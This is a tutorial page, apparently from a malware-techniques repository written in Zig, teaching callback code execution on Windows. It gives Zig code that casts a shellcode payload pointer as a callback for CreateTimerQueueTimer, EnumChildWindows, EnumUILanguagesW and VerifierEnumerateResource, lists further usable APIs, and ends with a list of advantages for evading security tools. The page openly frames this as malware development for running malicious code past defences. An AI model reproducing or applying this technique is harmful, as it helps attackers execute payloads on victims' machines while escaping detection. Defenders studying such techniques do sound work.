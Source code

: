 # Callback Code Execution

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Techniques/Callback-Code-Execution)

Callback code execution is a technique that leverages Windows API functions that accept callback function pointers to execute shellcode. Instead of using traditional methods like CreateThread or VirtualAlloc, this approach casts shellcode as a legitimate callback function, making it appear more benign to security solutions.

## What Is Callback Function

A callback function is a function passed as an argument to another function, which is then invoked at a specific point during the execution of that function. In Windows, many APIs accept callback functions to handle events, enumerate resources, or perform asynchronous operations.

The key insight for malware development is that these callback functions are executed in the same process context with the same privileges, making them perfect vehicles for shellcode execution. By casting shellcode as a callback function pointer, we can trick legitimate Windows APIs into executing our malicious code.

## Common Callback Functions

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a timer-queue timer that executes a callback function when the timer expires. This is one of the most reliable callback execution techniques.

```zig
extern "kernel32" fn CreateTimerQueueTimer(
    phNewTimer: *?windows.HANDLE,
    TimerQueue: ?windows.HANDLE,
    Callback: WAITORTIMERCALLBACK,
    Parameter: ?*anyopaque,
    DueTime: windows.DWORD,
    Period: windows.DWORD,
    Flags: windows.ULONG,
) callconv(WINAPI) windows.BOOL;

const WAITORTIMERCALLBACK = *const fn (?*anyopaque, windows.BOOL) callconv(WINAPI) void;

// Cast the payload address to the callback function type
const callback = @as(WAITORTIMERCALLBACK, @ptrCast(&payload));

if (CreateTimerQueueTimer(
    &hTimer,
    null, // TimerQueue - use default queue
    callback, // Callback - our shellcode
    null, // Parameter
    0, // DueTime - execute immediately
    0, // Period - execute once
    0, // Flags
) == 0) {
    print("[!] CreateTimerQueueTimer Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumChildWindows

`EnumChildWindows` enumerates child windows and calls a callback function for each window found. When passed a `NULL` parent window, it enumerates all top-level windows.

```zig
extern "user32" fn EnumChildWindows(
    hWndParent: ?HWND,
    lpEnumFunc: WNDENUMPROC,
    lParam: LPARAM,
) callconv(WINAPI) windows.BOOL;

const WNDENUMPROC = *const fn (HWND, LPARAM) callconv(WINAPI) windows.BOOL;

// Cast the payload address to the callback function type
const callback = @as(WNDENUMPROC, @ptrCast(&payload));

if (EnumChildWindows(null, // NULL parent enumerates all top-level windows
    callback, // Our payload
    0 // NULL lParam
) == 0) {
    print("[!] EnumChildWindows Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumUILanguagesW

`EnumUILanguagesW` enumerates the user interface languages available on the system, calling a callback function for each language found.

```zig
extern "user32" fn EnumUILanguagesW(
    lpUILanguageEnumProc: UILANGUAGE_ENUMPROCW,
    dwFlags: DWORD,
    lParam: LPARAM
) callconv(WINAPI) windows.BOOL;

const UILANGUAGE_ENUMPROCW = *const fn ([*:0]u16, LPARAM) callconv(WINAPI) windows.BOOL;
const MUI_LANGUAGE_NAME: DWORD = 0x8;

// Cast the payload address to the callback function type
const callback = @as(UILANGUAGE_ENUMPROCW, @ptrCast(&payload));

if (EnumUILanguagesW(callback, MUI_LANGUAGE_NAME, 0) != 0) {
    print("[!] EnumUILanguagesW Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using VerifierEnumerateResource

`VerifierEnumerateResource` is part of the Application Verifier framework and enumerates application resources, calling a callback for each resource found.

```zig
// Application Verifier callback function type
const AVRF_RESOURCE_ENUMERATE_CALLBACK = *const fn (
    PVOID, // ResourceDescription
    PVOID, // EnumerationContext
    PULONG, // EnumerationLevel
) callconv(WINAPI) ULONG;

// Function pointer type for VerifierEnumerateResource
const FnVerifierEnumerateResource = *const fn (
    HANDLE, // Process
    ULONG, // Flags
    ULONG, // ResourceType
    AVRF_RESOURCE_ENUMERATE_CALLBACK, // ResourceCallback
    ?PVOID, // EnumerationContext
) callconv(WINAPI) ULONG;

// Load verifier.dll dynamically
hModule = LoadLibraryA("verifier.dll");
const proc_addr = GetProcAddress(hModule.?, "VerifierEnumerateResource");
pVerifierEnumerateResource = @as(FnVerifierEnumerateResource, @ptrCast(proc_addr.?));

// Cast the payload address to the callback function type
const callback = @as(AVRF_RESOURCE_ENUMERATE_CALLBACK, @ptrCast(&payload));

// Call VerifierEnumerateResource
_ = pVerifierEnumerateResource.?(
    GetCurrentProcess(),
    0,
    AvrfResourceHeapAllocation,
    callback,
    null,
);
```

### More

The callback execution technique is versatile and can be applied to many Windows APIs. Some additional functions that accept callbacks include:

- **`EnumerateLoadedModules`** - Enumerates loaded modules in a process
- **`EnumDirTreeW`** - Enumerates directory trees with file patterns
- **`SymEnumProcesses`** - Enumerates processes for symbol handling
- **`EnumPageFilesW`** - Enumerates system paging files
- **`LdrEnumerateLoadedModules`** - Low-level module enumeration via NTDLL
- **`EnumWindows`** - Enumerates all top-level windows
- **`EnumResourceTypesW`** - Enumerates resource types in modules
- **`EnumFontsW`** - Enumerates fonts

You can checkout more callback functions in [this GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec).

## Advantages Of Callback Execution

1. **Evasion**: Appears as legitimate API usage to security tools
2. **No Suspicious Allocations**: Uses existing executable memory (.text section)
3. **No Thread Creation**: Executes in the context of existing threads
4. **API Diversity**: Many different APIs can be used, making detection harder
5. **Legitimate Context**: Code runs through legitimate Windows API call chains
